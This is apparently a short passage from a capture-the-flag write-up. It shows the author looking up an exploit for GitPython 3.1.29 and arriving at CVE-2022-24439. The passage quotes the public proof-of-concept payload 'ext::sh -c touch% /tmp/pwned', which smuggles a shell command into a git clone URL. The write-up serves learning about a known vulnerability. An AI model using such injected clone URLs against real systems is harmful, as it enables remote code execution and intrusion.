 > Then I tried to search the exploit code for GitPython 3.1.29

![](./IMG/54.png)

> I found the following one 

```
CVE-2022-24439
```

- [CVE-2022-24439 Detail](https://packetstormsecurity.com/files/cve/CVE-2022-24439)

![](./IMG/55.png)

> And found the following exploit discussion
> In this article, the summary shows a payload

- [CVE-2022-24439: <gitpython::clone> 'ext::sh -c touch% /tmp/pwned' for remote code execution](https://github.com/gitpython-developers/GitPython/issues/1515)

```
ext::sh -c touch% /tmp/pwned
```
